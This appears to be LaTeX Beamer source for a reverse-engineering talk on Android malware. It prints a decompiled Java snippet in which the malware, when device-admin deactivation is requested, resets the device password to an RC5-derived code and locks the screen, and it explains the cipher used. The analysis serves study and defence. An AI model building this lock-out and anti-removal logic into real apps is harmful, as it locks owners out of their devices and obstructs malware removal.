 \documentclass[12pt,a4paper]{beamer}
\begin{document}
\section{Reversing}

\begin{frame}[fragile]
\frametitle{A closer look at the Malware}
What's happening on DeviceAdmin onDisableRequest?

\begin{lstlisting}[style=customjava]
if (com.certificate.Cache.getInstance().isContainsSetting("rCode")) {
  String v14 = com.certificate.Util.EncodeThis("uninstall").replace(" ", "");
  v13 = v14.substring(0, (v14.length() - 1));
}
Object v3 = p9.getSystemService("device_policy");
if ((com.certificate.ModuleAdminReceiver.IS_SELF_DEACTIVATION) && (v13.length() > 0)) {
  v3.resetPassword(v13, 0);
  com.certificate.ModuleAdminReceiver.IS_UNINSTALLING = 1;
  v3.lockNow();
}
\end{lstlisting}

\end{frame}

\begin{frame}
\frametitle{A closer look at the Malware}

\begin{itemize}
	\item \texttt{EncodeThis} uses RC5\\
	Blocksize 32bit, Cipher Length 64bit and 12 Rounds
	\item The Cipher is initialised from \texttt{rCode}
	\item \texttt{rCode} (=Response Code) is set on Malware Activation
\end{itemize}

\end{frame}


\begin{frame}
\frametitle{A closer look at the Malware}

\centering
\includegraphics[height=0.6\textheight]{images/activation.png}
\end{frame}
\end{document}
